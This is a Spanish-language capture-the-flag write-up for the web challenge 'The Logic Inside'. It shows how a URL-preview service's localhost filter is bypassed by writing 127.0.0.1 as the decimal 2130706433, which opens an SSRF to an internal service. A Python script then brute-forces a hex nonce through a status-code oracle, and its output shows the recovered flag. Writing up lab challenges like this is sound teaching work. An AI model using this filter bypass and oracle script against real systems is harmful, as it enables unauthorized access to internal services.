# Writeup — The Logic Inside

> **CTF:** Pointer Overflow CTF · **Categoría:** Web 100 · **Wave 3**

> **Reto:** The Logic Inside

> **Vulnerabilidades explotadas:** 

> 	A01 - Broken Access Control - SSRF

> 	A02 - Security Misconfiguration

## Presentación

El evento **Pointer Overflow CTF** presenta algo de información antes de cada reto dando un poco de contexto.

```txt
# The Logic Inside

What we have for this one is an internal law-firm tool. It's based off of one I encountered at one point when I worked private sector cybersecurity. It's simplified, so you'll have fewer levers to pull.

Bittner & Cross, LLP uses an internal URL preview service that fetches user-supplied URLs but never returns the fetched content. Instead, it reports the request outcome and upstream HTTP status code. A hostname filter is intended to prevent access to loopback and private network addresses.

A second web application runs inside the same container, bound to 127.0.0.1:9001, and is not directly accessible from outside. Its /flag?guess= endpoint returns HTTP 200 if the supplied hexadecimal string matches the beginning of your team's 16-character hexadecimal nonce, or HTTP 404 otherwise.

Investigate the preview service and determine whether you can reach the internal application. Recover your team's complete nonce and submit it in the format required by the challenge platform. The fetched response body is never exposed; your investigation must rely on the information the services return.
```

En este caso se indica que detrás del CTF existe un contenedor que presenta un servicio en la dirección `127.0.0.1:9001` y al hacer una petición a `/flag?guess=` retornará **200** en caso de que el inicio de la cadena `guess` coincida con la clave que corresponde a mi equipo o **404** en caso contrario.

> bound to 127.0.0.1:9001, and is not directly accessible from outside. Its /flag?guess= endpoint returns HTTP 200 if the supplied hexadecimal string matches the beginning of your team's 16-character hexadecimal nonce, or HTTP 404 otherwise




## Reconocimiento

Al cargar la página principal me encuentro un visualizador de URLs.



El cual cuenta con un filtro para no poder acceder a la IP local.





## Prueba bypass localhost blacklist

Veo en la respuesta que el hostname es observado, por lo que por detrás si se accede a la IP local.

Intento saltar el bloqueo de la IP local cambiando `localhost` por otras cadenas válidas como la IPv4 completa, resumida, la IPv6 completa, resumida y variaciones como cambiar la IP local utilizando el número decimal, octal o hexadecimal.





Al probar con la IPv4 se bloquea y la aplicación no permite el uso de IPv6.

Pruebo convertir la dirección IP local a un número.



Observo que no se bloqueó pero hay un error en la búsqueda del contenido, por lo que pruebo con el puerto que indica la presentación.



Éxito, se observa que el servidor cargó el contenido de manera exitosa.

## Probar SSRF y descubrimiento de la nonce.

Ya se probó que se puede explotar el SSRF porque el servidor que corre el cliente accede al contenedor que yo no puedo acceder de manera directa.

Pruebo la existencia del archivo `/flag` nombrado en la presentación y evalúo el inicio del string `guess`.





Veo que al probar con los caracteres `0` y `2` obtengo una respuesta `404`, pero al iniciar el string con `1` obtengo un `200`. Esto me indica que mi nonce inicia con `1` y puedo automatizar esta prueba para los caracteres faltantes y obtener así el nonce completo.

## Script.

Para obtener los campos utilizados `url` y `upstream_status` se observó la petición **POST** realizada por la página al enviar una URL.

Se utiliza el script presentado a continuación para obtener el nonce completo.

```python
#!/usr/bin/env python3
import requests, sys
from pwn import log

# Configuración
ENDPOINT     = "https://pointeroverflowctf.com/challenges/the-logic-inside/_app/api/preview"
COOKIE       = "session=... cookie de session ..."
SSRF_HOST    = "2130706433"       # 127.0.0.1 en decimal — bypassea el filtro
URL_KEY      = "url"              # clave del body
STATUS_FIELD = "upstream_status"  # status de la respuesta

HEADERS = {"Cookie": COOKIE, "Content-Type": "application/json"}
HEX = "0123456789abcdef"

def check_char(prefix: str) -> int:
    target = f"http://{SSRF_HOST}:9001/flag?guess={prefix}"
    try:
        r = requests.post(ENDPOINT, json={URL_KEY: target}, headers=HEADERS, timeout=10)
        return r.json().get(STATUS_FIELD)
    except Exception:
        return None

def obtain_nonce() -> str:
    nonce = ""
    p = log.progress("Buscando nonce")
    
    for pos in range(16):
        found = False
        for c in HEX:
            current_guess = nonce + c

            # Barra de progreso.
            p.status(f"Posición {pos:2d}/15 | Probando: {current_guess}")
            
            if check_char(current_guess) == 200:
                nonce += c
                found = True
                break
        
        if not found:
            p.failure(f"No se encontró el nonce.")
            sys.exit(1)
            
    p.success(f"Completado.")
    return nonce

if __name__ == "__main__":
    log.info("Buscando nonce.")
    nonce = obtain_nonce()
    
    log.success(f"Nonce: {nonce}")
    log.success(f"Flag: POCTF{{{nonce}}}")
```

## Resultado.

Al ejecutar el script se obtiene el nonce y se reconstruye la flag como se indica en la consigna.

```bash
$ python3 ./script.py 
[*] Buscando nonce.
[+] Buscando nonce: Completado.
[+] Nonce: 1cb80197959a954a
[+] Flag: POCTF{1cb80197959a954a}
```

Nota 1: La página de POCTF no acepta `POCTF{1cb80197959a954a}` pero sí `1cb80197959a954a` como respuesta.

